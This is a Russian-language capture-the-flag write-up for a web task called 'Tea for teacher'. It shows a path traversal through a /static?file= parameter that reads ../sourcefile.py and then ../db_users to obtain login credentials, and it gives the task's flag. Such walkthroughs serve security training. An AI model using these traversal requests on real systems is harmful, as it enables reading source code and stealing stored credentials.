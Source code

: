 # Tea for teacher

## Описание

Лучшие рестораны мира хранят свои рецепты в самых надежных хранилищах. Вот одно из них: 

(ссылка)

## Решение

Изучив таск, можно заметить некорректное подключение `main.css`:

```
<link rel="stylesheet" type="text/css" href="/static?file=main.css">
```

Также можно заметить заголовок `Script-File`, содержащий файл с исходным кодом таска. Достанем его:

```
(ссылка)/static?file=../sourcefile.py
```

В файле можно заметить, что логин и пароль достаются из текстового файла `db_users`:


```
db = open('db_users','r').read().split('\n')
users = {u.split(':')[0]:u.split(':')[1] for u in db}

```

Теперь достанем "базу данных", откуда возьмем логин и пароль для входа.

```
(ссылка)/static?file=../db_users

```

## Флаг

SICAMP{61v3_m3_50m3_lf1_t00_plz_ehud}
